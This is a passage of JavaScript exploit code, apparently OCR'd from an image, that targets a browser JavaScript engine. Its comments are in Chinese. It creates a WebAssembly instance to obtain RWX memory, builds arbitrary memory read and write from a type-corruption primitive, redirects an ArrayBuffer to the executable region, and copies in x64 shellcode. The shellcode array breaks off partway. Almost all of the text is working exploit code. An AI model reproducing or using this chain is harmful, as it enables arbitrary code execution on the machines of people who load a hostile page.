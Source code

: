 ```javascript
// 编译 wasm 模块
// 代码可以从在线 wasm 编译器获得 https://wasdk.github.io/WasmFiddle/
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});

// 读取 wasmInstance 的 jump_table_start
const jump_table_start_offset = 0x68;
arr_buf_store_ptr = addrof(wasmInstance) + jump_table_start_offset;

read_u64 = (ptr) => {
	const [o1, o2] = createCorruptedPair([], v1, utof(BigInt(`0x${(ptr-0x8).toString(16)}00000000`)));
	read_heap_mem = (o) => o.corrupted_prop[0];
	for (let i = 0; i < 50000; ++i)
		read_heap_mem(o1);
	return ftou(read_heap_mem(o2));
}

// 读取 RWX 内存地址
rwx_mem = read_u64(arr_buf_store_ptr)
console.log('RXW mem start:', rwx_mem.toString(16));


// 新建 ArrayBuffer，修改指向的内存到 RWX 区域
const backing_store_offset = 0x1c;
arr_buf = new ArrayBuffer(0x1000);
backing_store_addr = addrof(arr_buf) + backing_store_offset;

console.log('orginal buf:', read_u64(backing_store_addr).toString(16));

write_u64 = (ptr, u64) => {
	f64 = utof(u64);
	console.log(ptr.toString(16));
	const [o1, o2] = createCorruptedPair([], v1, utof(BigInt(`0x${(ptr-0x8).toString(16)}00000000`)));
	write_heap_mem = (o) => o.corrupted_prop[0] = f64;
	for (let i = 0; i < 50000; ++i)
		write_heap_mem(o1);
	write_heap_mem(o2);
}

write_u64(backing_store_addr, rwx_mem);

// 创建一个 Uint8Array，用来读写 ArrayBuffer 指向的内存
rwx_bytes = new Uint8Array(arr_buf);

// 用 Uint8Array 复制 shellcode 到可执行内存
//
shellcode = new Uint8Array([//0xcc,
	0x48, 0x31, 0xFF, 0x48, 0xF7, 0xE7, 0x65, 0x48, 0x8B, 0x58,
  0x60, 0x48, 0x8B, 0x5B, 0x18, 0x48, 0x8B, 0x5B, 0x20, 0x48,
  0x8B, 0x1B, 0x48, 0x8B, 0x1B, 0x48, 0x8B, 0x5B, 0x20, 0x49,
  0x89, 0xD8, 0x8B, 0x5B, 0x3C, 0x4C, 0x01, 0xC3, 0x48, 0x31,
  0xC9, 0x66, 0x81, 0xC1, 0xFF, 0x88, 0x48, 0xC1, 0xE9, 0x08,
  0x8B, 0x14, 0x0B, 0x4C, 0x01, 0xC2, 0x4D, 0x31, 0xD2, 0x44,
  0x8B, 0x52, 0x1C, 0x4D, 0x01, 0xC2, 0x4D, 0x31, 0xDB, 0x44,
  0x8B, 0x5A, 0x20, 0x4D, 0x01, 0xC3, 0x4D, 0x31, 0xE4, 0x44,
  0x8B, 0x62, 0x24, 0x4D, 0x01, 0xC4, 0xEB, 0x32, 0x5B, 0x59,
  0x48, 0x31, 0xC0, 0x48, 0x89, 0xE2, 0x51, 0x48, 0x8B, 0x0C,
```